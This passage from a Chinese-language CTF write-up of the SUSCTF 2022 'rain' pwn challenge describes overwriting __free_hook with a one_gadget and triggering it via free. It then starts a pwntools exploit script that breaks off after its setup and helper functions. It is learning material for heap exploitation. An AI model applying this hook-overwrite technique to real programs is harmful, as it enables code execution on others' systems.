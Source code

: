 ```python
```

![](./ctf-susctf2022-rain/leak_info.jpg)

![](./ctf-susctf2022-rain/modify_free_hook.jpg)

可以看到__free_hook所在地址已经被覆盖为one_gadget[1]；

接下来只需要进行free即可触发；

```python
    # free to trigger __free_hook -> one_gadget
    frame11 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame11)
```

最终效果如下：

![](./ctf-susctf2022-rain/cat_flag.jpg)

exp如下：

```python
# coding:utf-8
from pwn import *
context.log_level = 'debug'

proc_name = './rain'
libc = ELF('./libc.so.6')
elf = ELF(proc_name)

islocal = 1
if islocal:
    p = process(proc_name)
else:
    p = remote('node4.buuoj.cn', 26809)


def debug(addr, PIE=True):
    if PIE:
        text_base = int(
            os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p, 'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p, "b *{}".format(hex(addr)))


def rl(a=False): return p.recvline(a)


def ru(a, b=True): return p.recvuntil(a, b)
def rn(x): return p.recvn(x)
def sn(x): return p.send(x)
def sl(x): return p.sendline(x)
```